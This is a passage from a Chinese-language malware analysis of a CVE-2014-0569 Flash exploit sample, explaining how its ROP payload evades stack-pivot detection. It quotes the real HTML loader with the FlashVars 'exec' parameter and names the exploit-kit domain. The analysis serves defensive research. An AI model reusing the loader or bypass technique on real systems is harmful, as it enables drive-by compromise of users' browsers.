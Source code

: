 现在我们在API函数CreateFileA()上。

如果检查TEB中的StackBase和StackLimit的值，可以看到esp在这个范围以外。如果安全软件在CreateFileA()上设置了API钩子，这个漏洞利用将在stack pivot阶段被很容易的检测到。

![enter image description here](http://drops.javaweb.org/uploads/images/2beef5cd747a9600b98f7509af275fe83b7baad4.jpg)

0x04 Stack Pivot 检测绕过
=====================

* * *

我们现在来看最近刚发现的利用CVE-2014-0569漏洞的样本，它使用了可以绕过stack pivot检测的ROP载荷。这种ROP载荷之前并没有看到过。之前它只是一种概念性的证明，而现在已经被用于实际的漏洞利用中。

我在下面的地址处找到了该漏洞样本完整的网络流量的PCAP文件：

http://malware-traffic-analysis.net/2014/10/30/index2.html

正如下图看到的，该漏洞利用工具部署在kethanlingtoro.eu处。

![enter image description here](http://drops.javaweb.org/uploads/images/41899336f41ec726fc3af6fb78ef1ea66e9ecf17.jpg)

下面的HTML代码用于在浏览器中加载恶意swf文件，触发在Adobe Flash Player插件中的漏洞。

```
<html>
<body>
<objectclassid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000"codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab"width="10"height="10"/><paramname="movie"value="Main.swf"/>
<paramname="allowFullScreen"value="false"/>
<paramname="allowScriptAccess"value="always"/>
<paramname="FlashVars" value="exec=3558584f737a7a6c415835233d57263d31585548553941347a6e42644c4c365a6b646a6b4c507a57557257236b394f354f"/>
<paramname="Play"value="true"/>
<embedtype="application/x-shockwaveflash"width="10"height="10"src="Main.swf" allowScriptAccess="always" FlashVars="exec=3558584f737a7a6c415835233d57263d31585548553941347a6e42644c4c365a6b646a6b4c507a57557257236b394f354f" Play="true" allowFullScreen="false"/>
</object>
</body>
</html>

```

请注意上面传递给Flash加载器的参数是采用FlashVars。这对与漏洞利用是需要的，如果没有它，恶意的swf文件将导致奔溃。

在这个例子中，恶意的swf文件被高度的混淆，如下图所示，常用的Flash Decompilers也不能成功的反编译这些代码。因此通过静态分析来定位ROP gadgets并不容易。

![enter image description here](http://drops.javaweb.org/uploads/images/cb81b0ca5d5d7654d22b6bad0efd1fee81144735.jpg)

通过查看反汇编后的Flash代码，可以看到在漏洞利用函数中它使用了一个Sound对象，同时调用了它的toString()方法。采用Sound对象进行漏洞利用的技术在当前很流行。通过该漏洞，Sound对象的虚函数表将被重写，而这将最终导致攻击者控制程序的执行流。

Sound对象：

![enter image description here](http://drops.javaweb.org/uploads/images/a7d072fc239254730b66cc3cc70c6d840be047ad.jpg)
